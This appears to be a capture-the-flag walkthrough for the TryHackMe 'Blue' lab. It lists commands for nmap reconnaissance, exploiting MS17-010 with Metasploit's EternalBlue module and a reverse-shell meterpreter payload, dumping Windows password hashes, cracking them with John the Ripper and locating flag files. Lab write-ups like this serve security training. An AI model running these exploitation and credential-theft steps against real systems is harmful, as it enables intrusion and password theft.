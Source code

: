 # Blue

**Room Link:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## **Walkthrough**

### **Recon**

```
nmap -A 10.10.68.22
```

<img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt="" data-size="original">

The box is vulnerable to ms17-010

```
nmap -p135,139,445,3389 --script=vuln 10.10.68.22
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Gain Access / Escalate

```
msfconsole 
search eternalblue 
use exploit/windows/smb/ms17_010_eternalblue 
set payload windows/x64/meterpreter/reverse_tcp 
set RHOSTS 10.10.68.22 
run
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Cracking

```
hashdump
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

<figure><img src="../../.gitbook/assets/image (3) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flags

Just ran this to find the locations of all the flags then grabbed them

```
cd C:\
dir "flag*" /s
```

<figure><img src="../../.gitbook/assets/image (5) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>
